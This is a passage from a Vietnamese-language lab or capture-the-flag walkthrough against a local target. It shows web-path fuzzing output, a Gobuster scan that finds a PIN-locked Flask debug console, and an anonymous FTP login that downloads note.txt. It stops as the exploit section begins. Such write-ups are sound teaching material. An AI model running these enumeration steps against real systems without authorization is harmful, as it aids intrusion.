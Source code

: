 ```

000000216:   302        3 L      24 W     257 Ch      "create"                                             
000000236:   302        3 L      24 W     253 Ch      "data"                                               
000000487:   200        75 L     138 W    2297 Ch     "login"                                              
000000490:   200        66 L     126 W    2011 Ch     "logout"                                             
...
```

Khi điều hướng đến `/login`, được nhắc nhập mật khẩu. Quay lại vấn đề này sau.

### Gobuster

Tiếp theo, quét trang web bằng `Gobuster` (và wordlist `/usr/share/wordlists/dirb/common.txt`) để tìm thư mục `/console`.

```
kali@kali:~$ gobuster dir -u http://192.168.120.121:8080 -w /usr/share/wordlists/dirb/common.txt -z
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
...
===============================================================
2020/10/06 09:08:16 Starting gobuster
===============================================================
/console (Status: 200)
...
```

Khi điều hướng đến `endpoint /console`, phát hiện ra chức năng debugging console, dựa trên vị trí, có vẻ là ứng dụng Flask. Tuy nhiên, điều này yêu cầu mã PIN để mở khóa và không thể đoán hoặc bẻ khóa mã PIN tại thời điểm này.

## Exploit

### PCAP File Inspection

Tiếp theo, đăng nhập và lấy các tập tin đã phát hiện từ máy chủ FTP.

```
kali@kali:~$ ftp 192.168.120.121
Connected to 192.168.120.121.
220 (vsFTPd 3.0.3)
Name (192.168.120.121:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Apr 29 18:16 WebSOC
-rw-r--r--    1 0        0             137 Apr 29 18:17 note.txt
226 Directory send OK.
ftp> 
ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (137 bytes).
226 Transfer complete.
```